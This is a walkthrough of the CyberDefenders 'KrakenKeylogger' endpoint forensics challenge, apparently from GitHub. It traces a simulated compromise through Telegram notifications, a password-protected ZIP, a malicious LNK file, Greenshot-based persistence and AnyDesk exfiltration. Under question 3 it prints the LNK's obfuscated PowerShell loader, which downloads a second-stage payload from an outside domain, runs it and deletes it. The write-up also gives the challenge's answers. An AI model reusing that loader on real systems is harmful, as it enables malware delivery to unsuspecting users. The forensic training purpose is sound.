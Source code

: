 # <a href="https://cyberdefenders.org/blueteam-ctf-challenges/krakenkeylogger/">KrakenKeylogger</a>

**Platform:** CyberDefenders

**Scenario:** An employee at a large company was assigned a task with a two-day deadline. Realizing that he could not complete the task in that timeframe, he sought help from someone else. After one day, he received a notification from that person who informed him that he had managed to finish the assignment and sent it to the employee as a test. However, the person also sent a message to the employee stating that if he wanted the completed assignment, he would have to pay $160.

The helper's demand for payment revealed that he was actually a threat actor. The company's digital forensics team was called in to investigate and identify the attacker, determine the extent of the attack, and assess potential data breaches. The team must analyze the employee's computer and communication logs to prevent similar attacks in the future.

**Category:** Endpoint Forensics

**Difficulty:** Medium

**Files:** `challenge directory`

**Tools:** `FTK Imager` `Autopsy` `Registry Explorer` `MFTECmd.exe` `Timeline Explorer`

> [FTK Imager](https://www.exterro.com/digital-forensics-software/ftk-imager) is a free data preview and imaging tool used to acquire electronic evidence in a forensically sound manner by creating copies of computer data without making changes to the original evidence.

**Note:** In this walkthrough, we will use the FlareVM to analyze the provided files. If you have not set it up yet, I highly recommend following this [malware analysis lab](https://github.com/mmhgwyjs/malware-analysis-lab/blob/main/README.md) guide for assistance with your installation.

## **Preparations**


## **Questions and Answers**

***1. What is the the web messaging app the employee used to talk to the attacker?***

\Users\OMEN\AppData\Local\Microsoft\Windows\Notifications

![image](https://github.com/user-attachments/assets/64055a1d-a3e2-470f-b86b-38cb65425219)

telegram

![image](https://github.com/user-attachments/assets/85866de4-c737-4544-8035-b49f340e375b)


***2. What is the password for the protected ZIP file sent by the attacker to the employee?***

@1122d

![image](https://github.com/user-attachments/assets/3edfae11-f421-45b7-aa33-9018fba648fc)

***3. What domain did the attacker use to download the second stage of the malware?***

masherofmasters.cyou

![image](https://github.com/user-attachments/assets/63bd4db8-6ac7-4f51-b051-c843fc46905d)

lecmd.exe -f templet.lnk

![image](https://github.com/user-attachments/assets/e8d8a357-e98e-4382-a054-f15be12b63e1)

```
Relative Path: ..\..\..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Arguments: -ExecutionPolicy UnRestricted $ProgressPreference = 0;
function nvRClWiAJT($OnUPXhNfGyEh){$OnUPXhNfGyEh[$OnUPXhNfGyEh.Length..0] -join('')};
function sDjLksFILdkrdR($OnUPXhNfGyEh){
$vecsWHuXBHu = nvRClWiAJT $OnUPXhNfGyEh;
for($TJuYrHOorcZu = 0;$TJuYrHOorcZu -lt $vecsWHuXBHu.Length;$TJuYrHOorcZu += 2){
try{$zRavFAQNJqOVxb += nvRClWiAJT $vecsWHuXBHu.Substring($TJuYrHOorcZu,2)}
catch{$zRavFAQNJqOVxb += $vecsWHuXBHu.Substring($TJuYrHOorcZu,1)}};$zRavFAQNJqOVxb};
$NpzibtULgyi = sDjLksFILdkrdR 'aht1.sen/hi/coucys.erstmaofershma//s:tpht';
$cDkdhkGBtl = $env:APPDATA + '\' + ($NpzibtULgyi -split '/')[-1];
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;
$wbpiCTsGYi = wget $NpzibtULgyi -UseBasicParsing;
[IO.File]::WriteAllText($cDkdhkGBtl, $wbpiCTsGYi);
& $cDkdhkGBtl;
sleep 3;
rm $cDkdhkGBtl;
Icon Location: C:\Windows\System32\imageres.dll
```

certutil -hashfile templet.lnk

![image](https://github.com/user-attachments/assets/d54c5405-fb24-4238-a75b-e59f122b2bdc)

8b49368462651afa265273151a1e7d4ea19e6347

![image](https://github.com/user-attachments/assets/f248f584-9520-4fd4-bc8d-371d1f3e4938)

masherofmasters.cyou

***4. What is the name of the command that the attacker injected using one of the installed LOLAPPS on the machine to achieve persistence?***

jlhgfjhdflghjhuhuh

![image](https://github.com/user-attachments/assets/04777a51-a34c-4585-96d2-f58e56faafc7)

Users/OMEN/AppData/Roaming/Greenshot/Greenshot.ini

https://lolapps-project.github.io/lolapps/Desktop/greenshot/

***5. What is the complete path of the malicious file that the attacker used to achieve persistence?***

C:\Users\OMEN\AppData\Local\Temp\templet.lnk

***6. What is the name of the application the attacker utilized for data exfiltration?***

anydesk

C:\Windows\System32\sru\SRUDB.dat

![image](https://github.com/user-attachments/assets/ac7ca00d-a42e-4eac-af1d-7d5fa80dc3f8)

C:\Users\flrvm2\Desktop\Tools\Forensic\SrumECmd.lnk -f C:\Users\flrvm2\Documents\CD\119-KrakenKeyLogger\SRUDB.dat --csv C:\Users\flrvm2\Documents\CD\119-KrakenKeyLogger

![image](https://github.com/user-attachments/assets/d114f3cf-5b1b-46ad-999b-cde203640422)

![image](https://github.com/user-attachments/assets/c6f0edb3-98c8-4c28-972c-72b587e6b8cb)

![image](https://github.com/user-attachments/assets/5e92c965-4342-4137-b008-f2cea32f2468)

***7. What is the IP address of the attacker?***

77.232.122.31

![image](https://github.com/user-attachments/assets/6a2f2274-e976-45ef-9c9d-b42101969ee5)

\Users\OMEN\AppData\Roaming\Anydesk

